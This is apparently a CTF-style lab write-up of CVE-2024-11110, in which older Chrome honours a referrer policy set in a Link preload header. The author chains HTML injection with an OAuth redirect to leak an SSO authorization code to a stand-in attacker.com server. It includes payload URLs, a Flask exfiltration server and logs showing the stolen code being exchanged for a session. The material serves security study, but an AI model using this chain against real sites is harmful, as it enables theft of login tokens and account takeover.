

## Introduction
1. I came across a very interesting question from NiteCTF2025 that leveraged a [Chrome 0-day](https://nvd.nist.gov/vuln/detail/CVE-2024-11110) to leak information via the Referer header. This article is best on my best understanding, so it might not be super accurate hehe.
2. Chrome browsers will fetch sub-resources that is defined in the [Link header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Link). 
3. This is not a vulnerability as the HTTP request to get the sub-resource will not leak any information via the Referer header. It will only show the `protocol+hostname+port` from my test
4. However, Chrome prior to 131.0.6778.69 respects the [`referrerpolicy` attribute](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referrer-Policy), which we can set to  `unsafe-url`. This cause the entire previous URL (together with the GET parameters) to be leaked in the Referer header of the HTTP request to the sub-resource
5. Very useful if the the previous URL contains the token etc
6. Conditions for successful XS-Leak: Insecure redirect to a vulnerable page in which
	1. HTML Injection is achievable
	2. `img` `src` attribute is controllable
7. Since I did not manage the NiteCTF challenge to get up and running :(, I used this [repo](https://github.com/VoorivexTeam/white-box-challenges/tree/main/referer-override) instead.
8. P.S. If you need to download previous versions of Chromium browser, you can get the binaries [here]( https://commondatastorage.googleapis.com/chromium-browser-snapshots/index.html)!
9. Valuable references:
	1. https://issues.chromium.org/issues/373263969
	2. https://blog.voorivex.team/leaking-oauth-token-via-referrer-leakage
## Writeup
1. There is a HTML Injection Vulnerability in `referer-override/company.tld/views/dompurify.ejs`
```html
  <script>
    // Extract query parameter from the URL
    const params = new URLSearchParams(window.location.search);
    const rawInput = params.get('input');

    if (rawInput) {
      const cleanHTML = DOMPurify.sanitize(rawInput);
      document.getElementById('sanitized-output').innerHTML = cleanHTML;
    } else {
      document.getElementById('sanitized-output').textContent = "No input provided.";
    }
  </script>
```
It is accessible via `/dompurify` endpoint. Refer `referer-override/company.tld/index.js`
```js
app.get('/dompurify', (req, res) => {
    res.render('dompurify');
});
```
The HTML Injection Vulnerability is confirmed.

2. We can get the victim to ping back to our server using `img` `src` attribute
```
http://sso.company.tld/:3001/dompurify?input=%3Cimg%20src=http://attacker.com:8000/x%3E
```
Output:
```http
GET /x HTTP/1.1
Host: attacker.com:8000
Connection: keep-alive
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://localhost:3001/
Accept-Encoding: gzip, deflate
```
3. To login, we will we need to click on a button which sends us to `http://sso.company.tld:3000/authorize?response_type=code&client_id=client1&redirect_uri=http%3A%2F%2Fcompany.tld%3A3001%2Fcallback&state=random-state&scope=openid+profile+email`
After logging in, if our credentials are correct, the browser will send a callback to the `company.tld`
```http
GET /callback?code=846f8938465276b3962ede595df25196fff86bab&state=random-state HTTP/1.1

Host: company.tld:3001
```
Output:
```http
HTTP/1.1 302 Found
Location: /profile
Set-Cookie: connect.sid=s%3AQlVtk1c_BPM0t57dS0rPeTxSTigjURsO.1xRX3wc4Fqcj1xMT%2F%2Fac3CV3aGHTbUM06%2BjI%2BvT%2FdAA; Path=/; HttpOnly
```
3. The `redirect_uri` is reflected in the response. It is HTML escaped though

4. We can combine it with the HTML Injection vulnerability. It allows us to receive a ping back if a successful login occurred.
```
http://sso.company.tld:3000/authorize?response_type=code&client_id=client1&redirect_uri=http%3A%2F%2Fcompany.tld%3A3001%2Fdompurify?input=%3Cimg%20src=http://attacker.com:8000/x%3E&state=random-state&scope=openid+profile+email
```
Output:
```
nc -lvnp 8000
GET /x HTTP/1.1
Host: attacker.com:8000
...
```
6. Apparently, chrome allows us to fetch sub-resources in the Link header. This version of chrome also allows us to set the [referrer-policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referrer-Policy) via the Link header
Our server:
```python
from flask import Flask, request, make_response

app = Flask(__name__)  # Flask needs the name of the application's module

@app.route("/abc.png") # route 'decorator'
def hello_world():
    response = make_response()
    response.headers["Link"] = '<http://attacker.com:8000/pwn>;rel="preload"; as="image"; referrerpolicy="unsafe-url"'
    return response

@app.route("/pwn")
def pwn():
    print(request.headers.get("Referer"))
    return "pwned"

if __name__ == '__main__':
    # Create the web server only if the python module is executed (not imported to another module)
    app.run(port=8000) # Allow debugging
```
- Basically, `poc.js` but in Python
- Setting the `referrerpolicy="unsafe-url"` is very important because it allows the Referer header to contain more information that just the `protocol+host+port` (Default policy is `Referrer-Policy: strict-origin-when-cross-origin`)
Our Payload:
```
http://sso.company.tld:3000/authorize?response_type=code&client_id=client1&redirect_uri=http%3A%2F%2Fcompany.tld%3A3001%2Fdompurify?input=%3Cimg%20src=http://attacker.com:8000/abc.png%3E&state=random-state&scope=openid+profile+email
```
Output:
```
 * Running on http://127.0.0.1:8000
Press CTRL+C to quit
127.0.0.1 - - [20/Dec/2025 07:08:09] "GET /abc.png HTTP/1.1" 200 -
http://company.tld:3001/dompurify?input=%3Cimg%20src%3Dhttp%3A%2F%2Fattacker.com%3A8000%2Fabc.png%3E&code=d9542fae49b37f055da5ad83cec0acc8541a4f33&state=random-state
127.0.0.1 - - [20/Dec/2025 07:08:09] "GET /pwn HTTP/1.1" 200 -
```
- The SSO code is leaked
P.S. Output if referrer policy is not set
```
127.0.0.1 - - [20/Dec/2025 07:14:30] "GET /abc.png HTTP/1.1" 200 -
http://company.tld:3001/
127.0.0.1 - - [20/Dec/2025 07:14:30] "GET /pwn HTTP/1.1" 200 -
```
7. We can use the code to request a valid session cookie
```http
GET /callback?code=d9542fae49b37f055da5ad83cec0acc8541a4f33&state=random-state HTTP/1.1

Host: company.tld:3001
```
- Then we get a ping back from the server
